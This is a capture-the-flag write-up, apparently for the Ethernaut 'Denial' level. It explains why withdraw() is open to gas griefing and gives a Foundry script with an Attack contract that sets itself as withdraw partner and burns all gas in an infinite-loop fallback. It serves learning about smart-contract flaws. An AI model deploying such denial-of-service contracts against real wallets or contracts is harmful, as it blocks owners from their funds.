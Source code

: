 ```javascript
    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

- Goal

1. Deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

- Solution

1. We should revert the call when the owner calls the `withdraw()` function. But if we do a simple revert in our contract fallback it won't work.
2. Because withdraw function doesn't check for the return value. 
3. One thing we can do is, drain the gas of the transaction that is sent by the owner. 
4. Call to partner is made by the `call` which will forward all the remaining gas to the external call. 
5. So, we can drain all the gas by writing a most expensive computation in Partner contract.
6. I have written an infinite loop inside the fallback of the Attack contract and registered the Attack contract as the partner in Denial contract.

`DenialSolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import {Denial} from "../src/Denial.sol";

contract DenialSolve is Script{
    Denial public denial = Denial(payable(0x82091354dc7d529c2d52F4D99f7108630ECaE590));
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Denial Balance : ", address(denial).balance);

        new Attack().exploit();
        
        vm.stopBroadcast();
    }
}

contract Attack{
    Denial public denial = Denial(payable(0x82091354dc7d529c2d52F4D99f7108630ECaE590));
    uint public x;

    function exploit() public {
        denial.setWithdrawPartner(address(this));
        // denial.withdraw();
    }
    fallback() external payable{
        for (uint i = 0; i>=0; i++){
            x = x + i;
        }
    }
}

```
